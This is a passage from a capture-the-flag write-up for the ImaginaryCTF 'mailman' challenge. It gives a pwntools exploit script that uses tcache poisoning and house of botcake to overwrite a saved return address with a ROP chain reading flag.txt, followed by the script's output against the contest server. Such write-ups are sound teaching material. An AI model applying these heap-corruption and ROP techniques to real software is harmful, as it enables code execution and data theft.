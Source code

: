 Now we leaked everything we just need to reuse the arbitrary write provided thanks to the house of botcake, given we already have overlapping chunks, to get another arbitrary write we just need to put the large chunk in a large tcache and the overlapped chunk in the `0x100` tcache, then we just have to corrupt `victim->fp` to the saved rip of the `fgets` stackframe :). It gives:

```py
rop = pwn.ROP(libc, base=stack)

# ROPchain
rop(rax=pwn.constants.SYS_open, rdi=stack + 0xde + 2 - 0x18, rsi=pwn.constants.O_RDONLY) # open
rop.call(rop.find_gadget(["syscall", "ret"]))
rop(rax=pwn.constants.SYS_read, rdi=3, rsi=(stack & ~0xfff), rdx=0x300) # file descriptor bf ...
rop.call(rop.find_gadget(["syscall", "ret"]))

rop(rax=pwn.constants.SYS_write, rdi=1, rsi=(stack & ~0xfff), rdx=0x50) # write
rop.call(rop.find_gadget(["syscall", "ret"]))
rop.raw("./flag.txt\x00")

# victim => tcache
free(8) 

# prev => tcache 0x140
free(7) 

# tcache poisoning
add(5, 0x130, b"T"*0x100 + pwn.p64(0) + pwn.p64(0x111) + pwn.p64(((stack - 0x28) ^ ((heap + 0x2b90) >> 12))))
add(2, 0x100, b"TT") # dumb

print(rop.dump())
add(3, 0x100, pwn.p64(0x1337)*5 + rop.chain())

io.interactive()
```

Which gives:
```
$ python3 exploit.py REMOTE HOST=mailman.chal.imaginaryctf.org PORT=1337
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/vuln'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/ld-linux-x86-64.so.2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to mailman.chal.imaginaryctf.org on port 1337: Done
[*] heap @ 0x5611bbf93000
[+] libc: 0x7f6b49fec000
[+] environ: 0x7f6b4a2932d8
[+] stdout: 0x7f6b4a206780
[*] stack: 0x7fff28533ba8
[*] Loaded 218 cached gadgets for '/home/nasm/Documents/pwn/ImaginaryCTF/mailman/libc.so.6'
[*] Switching to interactive mode
ictf{i_guess_the_post_office_couldnt_hide_the_heapnote_underneath_912b123f}
```